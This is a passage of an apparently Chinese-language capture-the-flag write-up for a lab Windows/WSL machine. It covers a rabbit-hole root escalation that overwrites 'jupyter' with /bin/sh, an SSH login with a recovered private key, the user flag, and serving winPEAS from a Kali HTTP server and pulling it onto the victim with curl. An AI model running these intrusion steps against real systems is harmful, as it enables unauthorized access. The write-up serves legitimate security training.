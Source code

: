 在 `/home/dev-datasci/.local/share/jupyter` 找到 `notebook_secret` 看起來也沒用

這邊有個想法 , 就是把 `jupyter` 直接寫成 `/bin/sh`

![Screenshot 2025-07-28 at 5.51.55 PM](https://hackmd.io/_uploads/rycH_6Evle.png)

提權成功 ， 看起來是兔子洞

```bash=
root@DEV-DATASCI-JUP:/var# uname -a
Linux DEV-DATASCI-JUP 4.4.0-17763-Microsoft #2268-Microsoft Thu Oct 07 16:36:00 PST 2021 x86_64 x86_64 x86_64 GNU/Linux
```

回頭思考解題流程，發現私鑰的使用方式可能有誤，私鑰的型式: `<userid>_id_ed????`，所以我們在使用 ssh 時候使用者名稱錯了，真正的使用者是`dev-datasci-lowpriv`

這邊還有踩一個坑就是 private key 如果權限開太大會用不了


![Screenshot 2025-07-29 at 9.25.17 AM](https://hackmd.io/_uploads/BJhWmiHvgl.png)

連上去可以直接打 `powershell` 進 powershell

```bash=
dev-datasci-lowpriv@DEV-DATASCI-JUP C:\Users\dev-datasci-lowpriv>powershell     
Windows PowerShell                                                              
Copyright (C) Microsoft Corporation. All rights reserved.                       
                                                                                
PS C:\Users\dev-datasci-lowpriv>                                                
```


> Get user Flag: THM{w3as3ls_@nd_pyth0ns}

接下來研究提權利用 python3 server 去傳 winPeas

架起來
```bash=
┌──(kali㉿kali)-[/usr/share/peass/winpeas]
└─$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.17.9.114 - - [28/Jul/2025 21:28:45] "GET / HTTP/1.1" 200 -
10.17.9.114 - - [28/Jul/2025 21:28:45] code 404, message File not found
10.17.9.114 - - [28/Jul/2025 21:28:45] "GET /favicon.ico HTTP/1.1" 404 -
10.10.16.42 - - [28/Jul/2025 21:29:12] "GET /winPEASx64.exe HTTP/1.1" 200 -
```

在受害機器上下載

```bash=
PS C:\Users\dev-datasci-lowpriv\Desktop> curl 10.17.9.114/winPEASx64.exe -o winp
eas.exe                                                                         
PS C:\Users\dev-datasci-lowpriv\Desktop> ls                                     
                                                                                
                                                                                
    Directory: C:\Users\dev-datasci-lowpriv\Desktop                             
                                                                                
                                                                                
Mode                LastWriteTime         Length Name                           
----                -------------         ------ ----                           
-a----        8/25/2022   5:21 AM       28916488 python-3.10.6-amd64.exe        
-a----        8/25/2022   7:40 AM             27 user.txt                       
-a----        7/28/2025   6:29 PM       10144256 winpeas.exe  
```
